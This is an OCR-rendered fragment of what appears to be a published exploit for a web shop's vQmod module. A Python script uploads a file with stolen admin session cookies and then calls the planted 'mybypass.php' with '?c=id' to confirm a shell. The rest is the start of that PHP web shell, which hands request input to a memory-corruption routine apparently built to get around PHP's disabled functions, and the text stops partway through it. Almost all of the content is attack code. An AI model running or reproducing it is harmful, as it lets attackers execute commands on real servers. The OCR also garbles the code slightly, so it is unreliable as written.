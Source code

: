 	'upload':(None,"Upload")

	}

	response = requests.post(url + "?app=vqmods&doc=vqmods", files=files, cookies=cookie\_dict)

	r = requests.get(url + "../vqmod/xml/mybypass.php?c=id")

	if r.status\_code == 200:

	print "Shell => " + url + "../vqmod/xml/mybypass.php"

	else:

	print "Sorry something went wrong"

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++


 \============= Content of file mybypass.php =============================
  
	<?php


	pwn($\_REQUEST\['c'\]);


	function pwn($cmd) {

	global $abc, $helper;


	function str2ptr(&$str, $p = 0, $s = 8) {

	$address = 0;

	for($j = $s-1; $j >= 0; $j--) {

	$address <<= 8;

	$address |= ord($str\[$p+$j\]);

	}

	return $address;

	}


	function ptr2str($ptr, $m = 8) {

	$out = "";

	for ($i=0; $i < $m; $i++) {

	$out .= chr($ptr & 0xff);

	$ptr >>= 8;

	}

	return $out;

	}


	function write(&$str, $p, $v, $n = 8) {
